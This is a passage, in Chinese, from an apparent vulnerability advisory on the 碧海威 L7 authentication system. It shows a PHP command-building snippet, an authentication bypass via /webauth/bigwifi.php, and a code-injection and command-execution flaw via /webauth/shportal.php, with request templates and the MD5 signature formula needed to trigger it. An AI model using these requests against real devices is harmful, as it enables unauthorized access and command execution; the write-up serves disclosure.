 ```php
$cmd = "cfgtool authctl add ip '$userIP' method bigwifi name '$user'  leftseconds 86400 timeout 1440";
exec(escapeshellcmd($cmd));

echo 'success';

exit;
?>
```

可以看到，程序首先从 GET 参数中获取 `user_id`、`time_stamp` 和 `sign`，然后计算 `md5(time_stamp + user_id)`，最后拼接命令，执行 `cfgtool authctl add` 命令，将用户添加进认证规则中。

## 漏洞 3 - 身份认证绕过

与漏洞 2 类型相同，在不同的路径（/webauth/bigwifi.php）。

```http
GET   {{BaseUrl}}/webauth/bigwifi.php?
      user_id=aaa
      &time_stamp=bbb
      &sign=ccc
```

内容与漏洞 2 类似，不再赘述。

## 漏洞 4 - 代码注入、命令执行

### 漏洞描述

身份认证系统中，存在代码注入、命令执行漏洞，可通过拼接执行命令。

### 漏洞影响

碧海威 L7 产品

### 漏洞利用

请求如下：

```http
GET   {{BaseUrl}}/webauth/shportal.php?
      timestamp=aaa
      &vender_id=bbb
      &action=login
      &login_type=ddd
      &user_id=eee
      &share=fff
      &sign=ggg
```

上述请求中：

- `timestamp` 为当前时间戳，但实际可填任意值
- `vender_id` 为厂商 ID，但实际可填任意值
- `action` 为执行动作，触发漏洞须填入 `login`
- `login_type` 为登录类型（100-临时放行，101-账号密码认证，102-微信连 Wi-Fi），但实际可填任意值
- `user_id` 为用户账号，存在代码注入漏洞
- `share` 为账号共享数，触发漏洞须填入 `1`
- `sign` 为 MD5 签名，计算方法为 `md5(timestamp + vender_id + action + login_type + user_id)`
